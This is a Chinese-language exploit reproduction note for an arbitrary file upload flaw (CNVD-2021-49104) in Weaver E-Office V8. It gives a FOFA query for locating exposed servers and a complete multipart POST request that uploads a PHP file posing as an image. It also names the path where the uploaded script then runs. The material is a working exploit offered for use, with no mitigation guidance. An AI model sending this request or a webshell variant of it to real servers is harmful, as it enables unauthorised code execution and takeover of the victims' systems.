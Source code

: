 # 泛微OA E-Office UploadFile.php 任意文件上传漏洞 CNVD-2021-49104

## 漏洞描述

在/general/index/UploadFile.php中上传文件过滤不严格导致允许无限制地上传文件，攻击者可以通过该漏洞直接获取网站权限

## 漏洞影响

```
泛微OA V8
```

## FOFA

```
app="泛微-EOffice"
```

## 漏洞复现

登录页面

![image-20220520134325360](./images/202205201343420.png)

发送请求包

```SS
POST /general/index/UploadFile.php?m=uploadPicture&uploadType=eoffice_logo&userId= HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
Accept-Language: zh-CN,zh-TW;q=0.9,zh;q=0.8,en-US;q=0.7,en;q=0.6
Cookie: LOGIN_LANG=cn; PHPSESSID=0acfd0a2a7858aa1b4110eca1404d348
Content-Length: 193
Content-Type: multipart/form-data; boundary=e64bdf16c554bbc109cecef6451c26a4

--e64bdf16c554bbc109cecef6451c26a4
Content-Disposition: form-data; name="Filedata"; filename="test.php"
Content-Type: image/jpeg

<?php phpinfo();?>

--e64bdf16c554bbc109cecef6451c26a4--
```

![image-20220520134342019](./images/202205201343075.png)

再访问

```
/images/logo/logo-eoffice.php
```

![image-20220520134356648](./images/202205201343715.png)